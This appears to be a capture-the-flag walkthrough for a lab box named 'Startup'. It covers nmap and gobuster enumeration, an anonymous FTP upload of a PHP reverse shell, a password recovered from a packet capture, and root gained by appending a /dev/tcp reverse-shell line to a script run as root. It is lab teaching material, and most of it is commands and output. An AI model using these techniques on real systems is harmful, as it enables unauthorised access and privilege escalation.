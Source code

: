 #### IP `10.10.241.74`


#### 1. First of all and as always we run nmap:
```
──(kali㉿kali)-[~]
└─$ nmap -Pn -A -T4 10.10.241.74
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 13:53 EST
Warning: 10.10.241.74 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.241.74
Host is up (0.20s latency).
Not shown: 994 closed ports
PORT      STATE    SERVICE        VERSION
21/tcp    open     ftp            vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.6.46.150
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open     ssh            OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp    open     http           Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
900/tcp   filtered omginitialrefs
5906/tcp  filtered unknown
11110/tcp filtered sgi-soap
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.73 seconds
                                                                     
```

These ports are open:
```
21
22
80
900
5906
1111
```


#### 2. Secondly, it is always good to run gobuster to get a list of directories available and also check `/robots.txt` 

```
sgobuster dir -u http://10.10.241.74 -w /usr/share/wordlists/dirb/common.txt ===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.241.74
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/10 13:52:52 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/files (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2021/01/10 13:54:58 Finished
===============================================================
```

It seems that there is a directory `/files` however, after a quick look there is nothing helpful there. These are files visible from ftp, so we will benefir from it in next point.
                                                                       


#### 3. We come back to ftp port.

We login as `Anonymous` and tap enter while prompted for password. Command `dir` shows available files (with no useful informations) but there is also `ftp` directory where anonymous user has writing permission.

In this case we will try to get a shell with netcat and reverse php:

- we save pentest monkey's  (or a one liner) reverse shell script as `shell.php`
- run netcat in separate terminal `sudo nc -lvnp 4444`
- upload `shell.php` to ftp directory with `put shell.php`
- open `http://10.10.241.74/files/ftp/shell.php` in a browser, click on it and get shell as `www-data`

There is a file called recipe.txt, so quick `cat` to answer first question:
```
ww-data@startup:/$ cat recipe.txt
cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was XXXX
```


#### 4. Indicents directory

Besides `recipe.txt` there is a directory named `incidents`

```
www-data@startup:/$ ls -lah
ls -lah
total 100K
drwxr-xr-x  25 root     root     4.0K Jan 10 18:52 .
drwxr-xr-x  25 root     root     4.0K Jan 10 18:52 ..
drwxr-xr-x   2 root     root     4.0K Sep 25 08:12 bin
drwxr-xr-x   3 root     root     4.0K Sep 25 08:12 boot
drwxr-xr-x  16 root     root     3.5K Jan 10 18:51 dev
drwxr-xr-x  96 root     root     4.0K Nov 12 05:08 etc
drwxr-xr-x   3 root     root     4.0K Nov 12 04:53 home
drwxr-xr-x   2 www-data www-data 4.0K Nov 12 04:53 incidents
lrwxrwxrwx   1 root     root       33 Sep 25 08:12 initrd.img -> boot/initrd.img-4.4.0-190-generic
lrwxrwxrwx   1 root     root       33 Sep 25 08:12 initrd.img.old -> boot/initrd.img-4.4.0-190-generic
drwxr-xr-x  22 root     root     4.0K Sep 25 08:22 lib
drwxr-xr-x   2 root     root     4.0K Sep 25 08:10 lib64
drwx------   2 root     root      16K Sep 25 08:12 lost+found
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 media
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 mnt
drwxr-xr-x   2 root     root     4.0K Sep 25 08:09 opt
dr-xr-xr-x 128 root     root        0 Jan 10 18:51 proc
-rw-r--r--   1 www-data www-data  136 Nov 12 04:53 recipe.txt
drwx------   4 root     root     4.0K Nov 12 04:54 root
drwxr-xr-x  25 root     root      920 Jan 10 19:13 run
drwxr-xr-x   2 root     root     4.0K Sep 25 08:22 sbin
drwxr-xr-x   2 root     root     4.0K Nov 12 04:50 snap
drwxr-xr-x   3 root     root     4.0K Nov 12 04:52 srv
dr-xr-xr-x  13 root     root        0 Jan 10 19:19 sys
drwxrwxrwt   7 root     root     4.0K Jan 10 19:23 tmp
drwxr-xr-x  10 root     root     4.0K Sep 25 08:09 usr
drwxr-xr-x   2 root     root     4.0K Nov 12 04:50 vagrant
drwxr-xr-x  14 root     root     4.0K Nov 12 04:52 var
lrwxrwxrwx   1 root     root       30 Sep 25 08:12 vmlinuz -> boot/vmlinuz-4.4.0-190-generic
lrwxrwxrwx   1 root     root       30 Sep 25 08:12 vmlinuz.old -> boot/vmlinuz-4.4.0-190-generic
www-data@startup:/$ 
```

and `suspicious.pcapng` file which looks like wireshark's packet file but do not get confused :)

```
www-data@startup:/incidents$ ls -lah
ls -lah
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Nov 12 04:53 .
drwxr-xr-x 25 root     root     4.0K Jan 10 18:52 ..
-rwxr-xr-x  1 www-data www-data  31K Nov 12 04:53 suspicious.pcapng
```

#### 5. Investigating the file.

I quickly run a python http server `python3 -m http.server` and downloade a file to my local machine, as there is no `strings` command installed on a box.

Here is what we have:

```
$ strings suspicious.pcapng              

Qcd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ 
lennie
www-data@startup:/home$ 
cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ |
.?:MD
sudo -l
sudo -l
[sudo] password for www-data: 
c4nXXXXXXXXXc3
6%	@
Sorry, try again.
[sudo] password for www-data: 
^/Sorry, try again.
[sudo] password for www-data: 
c4nXXXXXXXXXc3
sudo: 3 incorrect password attempts
www-data@startup:/home$ |
```

A giant file with some logs. Once we have a deeper look at it, among  different commands there is a username `lennie` and passswordlike word, which in the end turns out to ba that user's pass (it is very illogic for me)


#### 6. Enumaration while logged as `lennie`

I run `linpeas.sh` in order to get some useful informations, however did not find anything. 

Our user `lennie` has permissions to run `/etc/print.sh` script so by appending a reverse shell onliner and running netcat, there is a chance to get another shell as root.

I type `echo "bash -i &>/dev/tcp/$MYIP/$NCPORT <&1" >> /etc/print.sh`

```
lennie@startup:~$ echo "bash -i &>/dev/tcp/10.6.46.150/4444 <&1" >> /etc/print.s 
lennie@startup:~$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
bash -i &>/dev/tcp/10.6.46.150/4444 <&1
lennie@startup:~$ 

```

wait a little and bingo:

```
──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 4444
[sudo] password for kali: 
listening on [any] 4444 ...
connect to [10.6.46.150] from (UNKNOWN) [10.10.212.41] 54316
bash: cannot set terminal process group (1402): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# ls -la
ls -la
total 28
drwx------  4 root root 4096 Nov 12 04:54 .
drwxr-xr-x 25 root root 4096 Jan 10 20:23 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Nov 12 04:54 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   38 Nov 12 04:53 root.txt
drwx------  2 root root 4096 Nov 12 04:50 .ssh
root@startup:~# cat root.txt
cat root.txt
THM{f963XXXXXXXXXXXXXXXXXXXXXXXX6d}
root@startup:~# 
```
